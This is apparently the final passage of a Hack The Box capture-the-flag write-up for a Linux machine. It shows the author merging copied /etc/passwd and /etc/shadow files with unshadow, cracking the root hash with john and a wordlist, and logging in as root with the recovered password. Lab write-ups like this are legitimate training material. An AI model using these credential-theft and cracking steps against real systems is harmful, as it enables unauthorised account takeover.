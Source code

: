 I grab that content of shadow and the one of `/etc/passwd`, run unshadow to generate a file compatible to john and crack it:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/obscurity# unshadow passwd.txt shadow.txt > rootkey.txt
root@kali:~/Documents/HTB/boxes/medium/linux/obscurity# john --wordlist=/usr/share/wordlists/rockyou.txt rootkey.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
--- SNIP ---
mercedes         (root)
--- SNIP ---
Session completed
```

And there we have the password of root user; `mercedes` and we succesfully login as root with it :D

```console
robert@obscure:~/BetterSSH$ su - root
Password:
root@obscure:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Well, this was a really fun machine, and one that teach me a lot (specifically talking python stuff), so well I hope I can give something yousefull to you with this write up, and thanks a lot for read until the end :)

I will try to be making some time to do write ups of some other machines, until next time!!